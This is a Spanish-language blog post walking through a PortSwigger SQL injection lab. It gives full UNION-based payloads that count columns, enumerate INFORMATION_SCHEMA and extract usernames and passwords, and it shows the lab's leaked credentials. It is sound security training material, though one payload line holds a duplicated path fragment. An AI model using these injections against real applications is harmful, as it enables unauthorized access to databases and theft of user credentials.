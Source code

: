 ```yaml
---
title: SQL Injection UNION Attack.
date: '2023-03-29'
tags: ['HACKING', 'SQL', 'SQL INJECTION']
draft: false
summary: El fin de este ataque es aprovechar algún elemento de la página web que esté renderizando información que llega directamente de la BD para extraer información. Si la aplicación es vulnerable a SQL Injection (SQLi) y somos capaces de determinar cuantas columnas está devolviendo la consulta SQL original podremos utilizar la palabra reservada *UNION* de SQL para concatenar en la salida de la consulta información extra de otras tablas de la base de datos.
images: ['/static/images/sqli-union-attack/twitter-card.png']
---
```


El fin de este ataque es aprovechar algún elemento de la página web que esté renderizando información que llega directamente de la BD para extraer información. Si la aplicación es vulnerable a SQL Injection (SQLi) y somos capaces de determinar cuantas columnas está devolviendo la consulta SQL original podremos utilizar la palabra reservada *UNION* de SQL para concatenar en la salida de la consulta información extra de otras tablas de la base de datos.

Doy por hecho que el lector tiene conocimientos sobre lo que es un SQLi, conocimientos básicos de como funciona el ataque y conocimientos básicos de SQL.

Las siguientes explicaciones se basarán en la idea de que tenemos una aplicación web la cual recibe como un parámetro en la url un valor que se utiliza para filtrar en una consulta SQL. Para hacer el post mas visual usaremos los laboratorios de [https://portswigger.net/](https://portswigger.net/) en concreto el laboratorio ****Lab: SQL injection attack, listing the database contents on non-Oracle databases.****

Importante recalcar que el laboratorio es una BD non-Oracle, para Oracle las consultas cambiarían un poco ya que siempre se necesita que se especifique una tabla en la consulta. Para ello se usa la tabla *Dual* (`[sqli] from Dual — -`) 

Este laboratorio es una aplicación web que recibe como parámetro una categoría que se usa para filtrar los resultados de la página.

![Query param](/static/images/sqli-union-attack/1.png)

Los resultados que se ven en la parte de abajo de la imagen son el resultado de la consulta SQL, probablemente la consulta que se esté haciendo sea algo similar a la siguiente:

''' sql
SELECT title, body
FROM Table
WHERE category LIKE ‘Pets’
'''

El campo _title_ de la consulta sería *Fur Babies* y el _body_ el resto del texto que aparece debajo del titulo.

## Enumerar la cantidad de columnas de la consulta original.

Lo primero que debemos hacer, después de comprobar que la aplicación es vulnerable a SQLi, es enumerar el número de columnas de la consulta original. Esto es necesario para poder concatenarle al resultado de la consulta aquellos datos que nosotros como atacantes quisiéramos extraer de la BD.

Para ello lo más sencillo es intentar ordenar el resultado por el número de columnas:

`/filter?category=Pets' ORDER BY 2 -- -`

Mientras usemos un número de columna válido la web seguirá funcionando, en el momento en el que pongamos un número de columna que no exista la aplicación se romperá. Por ejemplo, si usamos `3` en lugar de `2` la aplicación muestra un mensaje de error. Eso nos da la información de que en la consulta original existen dos columnas.

## Identificar qué campos son válidos para extraer datos

Gracias a la enumeración de columnas sabemos que existen dos columnas en la consulta por lo que podríamos empezar a concatenar información en la consulta sin obtener error por parte de la aplicación:

`/filter?category=Pets' UNION SELECT NULL, NULL -- -`

Los valores nulos representan las columnas que podemos usar para extraer información de la BD, como por ejemplo la versión de la BD:

`/filter?category=Pets' UNION SELECT version(), NULL -- -`

En medio del texto de la web podremos ver el siguiente texto:

**PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit**

¡La versión de la BD que está corriendo por detrás de la web!

Nótese que estamos usando `version()` porque es un PostgreSQL, deberemos adaptar nuestras consultas SQL según el motor de BD que corra por detrás de la web. PortSwigger tiene una cheatsheet bastante buena para las diferencias más comunes entre motores de BD [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

En el ejemplo anterior hemos podido extraer la versión de la BD sin problemas pero debemos saber que **no todos los campos de la consulta pueden ser validos para extraer texto**, si la columna es un tipo de dato numérico (int) no podremos usarlo para extraer texto. La forma más sencilla de identificar que campos podemos usar para extraer información es la siguiente:

`/filter?category=Pets' UNION SELECT 'A', NULL -- -`

`/filter?category=Pets' UNION SELECT NULL, 'A' -- -`

En caso de que por ejemplo, la segunda columna sea de tipo numérico la aplicación se romperá al ejecutar la consulta.

En caso de que solo una de los campos nos permita extraer texto y queramos extraer información de más de una columna podemos jugar con la función `concat()` para mostrar N columnas sobre un mismo campo:

`/filter?category=Pets' UNION SELECT concat(version(), ':',``current_database()), NULL -- -`

En la consulta anterior nos aparecería la versión de la BD junto con el nombre de la base de datos actual separado por el delimitador “:”. No todos los motores de BD tienen el método `concat()` pero todos ellos nos permite extrapolar cadenas de una forma u otra. La cheatsheet que nombre anteriormente tiene también diferentes formas de concatenar datos en función del motor de BD.

## Enumerar bases de datos, tablas y columnas

La información más relevante de la BD se encuentra dentro de las tablas. Para poder montar las consultas que nos extraigan los datos debemos conocer la estructura interna de la BD, nombres de las BBDD, nombres de tablas y nombres de columnas. Para ello, podemos usar la tabla `INFORMATION_SCHEMA` para, de forma progresiva, extraer todo.

Para enumerar las bases de datos del servidor:

`/filter?category=Accessories' UNION SELECT schema_name, NULL FROM INFORMATION_SCHEMA.SCHEMATA -- -`

En la anterior inyección SQL estamos usando la tabla `INFORMATION_SCHEMA` para enumerar las bases de datos que están en el servidor.

`INFORMATION_SCHEMA` es la base de datos donde se guarda la información sobre todas las demás bases de datos, por ejemplo; nombres de las bases de datos o una tabla, su tipo de columna, privilegios de acceso, etc. Se trata de una base de datos virtual integrada con el único propósito de proporcionar información sobre el propio sistema de base de datos.

Al ejecutar la inyección podemos visualizar en el contenido de la web los nombres de las bases de datos (pg_catalog, public y information_schema):

![Enumeracion de bases de datos](/static/images/sqli-union-attack/2.png)

Una vez conocemos la BD es hora de conocer las tablas que contiene, una vez más usando la tabla `INFORMATION_SCHEMA` extraemos la información:

`/filter?category=Accessories/filter?category=Accessories' UNION SELECT table_name, NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema LIKE 'public' -- -`

![Enumeracion de tablas](/static/images/sqli-union-attack/3.png)

Vemos que la BD *public* contiene dos tablas, *products* y *users_dcpwdo.* Como el fin del laboratorio es extraer las credenciales del usuario administrador vamos a por la tabla de usuarios. Lo único que nos falta por saber para poder extraer la información de esta tabla son las columnas que contiene.

`/filter?category=Accessories' UNION SELECT column_name, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name LIKE 'users_dcpwdo' -- -`

![Enumeracion de columnas](/static/images/sqli-union-attack/4.png)

Enumeramos dos columnas en la tabla: *password_gwmnts* y *username_jxwprc.* Con esta información solo queda hacer una consulta normal a la tabla y extraer la información.

`/filter?category=Accessories' UNION SELECT username_jxwprc, password_gwmnts FROM users_dcpwdo -- -`

No saqué captura del resultado de la última inyección pero el resultado que se ve por pantalla son los usuarios que contiene la tabla de usuarios, entre ellos el usuario administrador.

Cabe destacar que es posible que no todas los campos de la consulta sean compatibles para extraer texto, como comentamos anteriormente en la enumeración de columnas. En ese caso podemos jugar con la función `concat()` para que en un mismo campo nos muestre información de N columnas.

`/filter?category=Accessories' UNION SELECT concat(username_jxwprc, ':', password_gwmnts), NULL FROM users_dcpwdo -- -`

El resultado de la consulta sería algo parecido a esto:

`wiener:g4l778876wfucwa6q82g`

`administrator:dau3lmcllq0h9oh314kn`

Pues solo nos queda hacer login y resolver el laboratorio.

![Lab solved](/static/images/sqli-union-attack/5.png)

Gracias por leer.